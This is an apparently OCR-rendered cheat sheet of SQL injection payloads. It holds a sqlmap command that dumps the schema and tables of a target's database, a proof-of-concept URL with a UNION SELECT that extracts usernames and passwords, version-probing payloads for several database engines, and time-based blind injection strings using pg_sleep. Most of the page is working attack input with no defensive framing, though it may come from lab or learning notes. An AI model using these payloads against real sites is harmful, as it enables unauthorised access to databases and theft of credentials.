 <h1>SQL Injection</h1>

<p>-- o #</p>

<h2>Reflected SQL Injection:</h2>
<code>sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns</code>

<p>Database: public</p>
<p>Table: users</p>

<h4>POC</h4>
<code>https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--</code>

<h5>Version</h5>
<p>First detect numbers of columns</p>
<p><code>' UNION SELECT NULL,@@version--</code></p>
<p><code>' UNION SELECT NULL,NULL,* FROM v$version--</code></p>
<p><code>' UNION SELECT banner FROM v$version--</code></p>
<p><code>' UNION SELECT version FROM v$instance--</code></p>
<p><code>' UNION SELECT version()--</code></p>

<h2>Blind SQL Injection:</h2>
<p><code>';SELECT PG_SLEEP(5)--</code></p>
<p><code>'||pg_sleep(10)--</code></p>

